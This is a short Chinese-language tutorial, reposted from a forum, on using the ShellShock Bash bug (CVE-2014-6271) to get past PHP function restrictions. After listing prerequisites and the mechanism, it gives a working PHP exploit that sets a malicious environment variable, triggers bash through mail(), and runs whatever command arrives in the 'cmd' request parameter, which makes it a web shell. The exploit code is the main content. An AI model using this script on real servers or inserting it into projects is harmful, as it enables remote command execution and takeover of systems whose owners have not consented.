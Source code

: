 # 利用 ShellShock 绕过

> 原文：[https://www.zhihuifly.com/t/topic/3472](https://www.zhihuifly.com/t/topic/3472)

## 利用 ShellShock 绕过

**1\. 前提条件**

目标OS存在Bash破壳（CVE-2014-6271）漏洞
PHP 5.*
linux
putenv()、mail()可用

**2\. 基本原理**

一般函数体内的代码不会被执行，但破壳漏洞会错误的将"{}"花括号外的命令进行执行
php里的某些函数(例如:mail()、imap_mail())能调用popen或其他能够派生bash子进程的函数，可以通过这些函数来触发破壳漏洞(CVE-2014-6271)执行命令。

**3\. exp**

```
<?php
   function shellshock($cmd) {
  $tmp = tempnam(".","data");
  putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
  mail("a@127.0.0.1","","","","-bv");
  $output = @file_get_contents($tmp);
  @unlink($tmp);
  if($output != "") return $output;
  else return "No output, or not vuln.";
}
echo shellshock($_REQUEST["cmd"]);
?> 
```